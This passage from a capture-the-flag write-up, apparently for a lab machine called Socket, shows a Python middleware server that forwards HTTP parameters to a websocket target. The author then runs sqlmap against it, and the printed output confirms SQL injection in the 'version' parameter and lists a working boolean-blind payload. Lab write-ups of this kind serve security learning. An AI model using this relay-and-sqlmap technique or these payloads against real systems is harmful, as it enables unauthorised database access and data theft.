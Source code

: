 ```python
            self.send_header("Content-type", content_type)
            self.end_headers()
            self.wfile.write(content.encode())
            return

    class _TCPServer(TCPServer):
        allow_reuse_address = True

    httpd = _TCPServer(host_port, CustomHandler)
    httpd.serve_forever()

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?version=*")

try:
    middleware_server(("0.0.0.0", 8081))
except KeyboardInterrupt:
    pass
```

And now, I can start the proxy server with:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ python ws.py                                                                                                                                                                                                                 1 ⨯
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?version=*import json
```

After that, I can point `sqlmap` to my local endpoint and let it reveal any SQLi vulnerabilities:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ sqlmap -u 'http://localhost:8081?version=1' --batch --dbs --level 5 --risk 3
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.7#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<..snip..>

[18:13:51] [INFO] GET parameter 'version' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable
[18:13:51] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:13:51] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:13:51] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:13:52] [INFO] target URL appears to have 4 columns in query
[18:13:52] [INFO] GET parameter 'version' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
[18:13:52] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
GET parameter 'version' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 269 HTTP(s) requests:
---
Parameter: version (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: version=1" OR NOT 1580=1580-- YmGV
```